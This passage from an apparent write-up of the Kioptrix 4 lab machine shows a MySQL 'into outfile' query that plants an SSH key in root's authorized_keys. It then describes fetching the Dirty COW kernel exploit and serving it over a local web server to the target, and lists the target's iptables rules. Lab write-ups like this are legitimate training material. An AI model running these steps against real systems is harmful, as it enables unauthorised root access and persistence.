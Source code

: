 With root file system access confirmed, I used the same query to write out a public key to `/root/.ssh/authorized_keys`:

```shell_session
mysql> select 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRlj18X0JWCla6TpLSbSI63UINfVuHUkLBrvTAUvbsTMi1oKb75dATm5JgMdutK4mDT2+2hbPYN9Ckwu0okkXWwwlHxjlp1SD6iGEbKp9VeVfG9Dt8gzRILslxP0BNvYqLzAd/URal7j6B4trinm6sDFFlvRh0kMrjy4ziBL8P74Ham/QjBnPzvtpLzu9mhlfda7OoIifb0S0SaJ9657Ii4Cv5AaVOyo4tYVaY6Tsaw7SF+3TZ9QvZ5f8LYwlHFA4xHAlWO929491VUaOlhObO2AdeqkhcOEfHtCIarByjCHo+atjM0Wj6PEo7HtU3P7bUVSHwoIjI7IjqofOo+bK1 rastating' into outfile '/root/.ssh/authorized_keys';
Query OK, 1 row affected (0.00 sec)
```

I then tried to SSH as `root` using the private key, but was presented with the password prompt instead; suggesting that OpenSSH is not configured to allow keys to be used; which could be confirmed by checking out `/etc/ssh/sshd_config`:

```
# Authentication:
LoginGraceTime 120
PermitRootLogin yes
StrictModes yes
```

## Rooting with Dirty Cow
As SSH was out of the question, I moved on to attacking the kernel. I grabbed a copy of [FireFart's](https://twitter.com/_firefart_) dirty cow exploit from Exploit-DB (https://www.exploit-db.com/exploits/40839/) and compiled it locally, due to `gcc` not being present on the target machine.

Once compiled, I started a local web server (`python -m SimpleHttpServer 5555`) to transfer the exploit across, but it timed out each time; which suggested there was some egress filtering in place.

A quick look at `/etc/iptables.rules` confirmed there were a number of restrictions on outgoing traffic, which would include port 5555, which I ran the HTTP server on:

```shell_session
robert@Kioptrix4:~$ cat /etc/iptables.rules  
# Generated by iptables-save v1.3.8 on Mon Feb  6 20:00:52 2012
*filter
:INPUT ACCEPT [6150:1120650]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [969:93214]
-A INPUT -p tcp -m tcp --dport 4444 -j DROP
-A INPUT -p tcp -m tcp --dport 1337:6000 -j DROP
-A INPUT -p tcp -m tcp --dport 10000:31337 -j DROP
-A INPUT -p tcp -m tcp --dport 8080 -j DROP
-A OUTPUT -p tcp -m tcp --dport 4444 -j DROP
-A OUTPUT -p tcp -m tcp --dport 1337:6000 -j DROP
-A OUTPUT -p tcp -m tcp --dport 10000:31337 -j DROP
-A OUTPUT -p tcp -m tcp --dport 8080 -j DROP
-A OUTPUT -p tcp -m tcp --dport 80 -j DROP
-A OUTPUT -p tcp -m tcp --dport 21 -j DROP
COMMIT
# Completed on Mon Feb  6 20:00:52 2012
```
